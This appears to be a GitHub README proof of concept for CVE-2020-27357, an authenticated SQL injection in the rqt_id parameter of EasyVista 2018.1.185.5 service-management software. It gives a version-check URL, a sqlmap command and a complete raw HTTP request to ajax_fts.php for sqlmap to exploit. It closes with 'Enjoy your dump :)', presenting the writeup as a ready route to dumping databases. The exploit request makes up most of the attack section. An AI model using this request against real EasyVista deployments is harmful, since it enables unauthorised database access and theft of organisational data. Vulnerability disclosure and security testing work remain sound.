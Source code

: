 # EasyVista

## easyvista 2018.1.185.5 - CVE-2020-27357 

* Description : SQL injection vulnerability via the rqt_id parameter
* Affected version : 2018.1.185.5

### Information

To make this PoC, I just installed the software (`https://www.easyvista.com/`)

* Vulnerability Type : Authenticated SQL injection (Boolean-based or Time-based)

### POC 

First of all, you can check your version using this URL `xxx.com/version` you will have this kind of output :

<img width="1280" alt="version" src="https://raw.githubusercontent.com/michmich1000/EasyVista/master/version.png">


After that, you can give this request to sqlmap (`sqlmap -r theRequestFile.txt -p rqt_id`)


```
GET /ajax_fts.php?session_id=3bdb1af820b0f9246576532dd9612cf8241&lng=FR&uniqid=3bdb1af820b0f9246576532dd9612cf8241&ajax_action=getSearchGridResult&rqt_id=&from=kp_menu&stats_off=&from_kp=&fts_ezv_select_cust_engine=ezv&fts_ezv_search_text=test&fts_ezv_filter_bool=custom_sql&fts_ezv_filter_keywords=&fts_ezv_filter_target=action&fts_ezv_filter_lng=fr&fts_ezv_filter_loc=&fts_ezv_filter_dpt=&fts_ezv_filter_topic=&fts_ezv_filter_ci=&fts_ezv_custom_start_date=&fts_ezv_custom_end_date=&fts_ezv_filter_date_pattern= HTTP/1.1
Host: xxxx.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://xxxxx.com/ftsmodal.php?PHPSESSID=3bdb1af820b0f9246576532dd9612cf8241&eventName=Procurement_KnowledgeBaseItem&internalurltime=1600255495734&PHPSESSID=325454EGFDSQ3dafdf30f&internalurltime=1600255495736
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=3bdb1af820b0f9246576532dd9612cf8241; uid_0282370a0aER654324b9c028a39a75=1600252617; cookie_account=1337; menu_type=global; uid_aabfafcd5a93456532254c2d1830df8fe4dd9d4=1600255497
```

<img width="1280" alt="Boolean-based" src="https://raw.githubusercontent.com/michmich1000/EasyVista/master/poc.png">

<img width="1280" alt="Boolean-based" src="https://raw.githubusercontent.com/michmich1000/EasyVista/master/vuln.png">

Enjoy your dump :) 
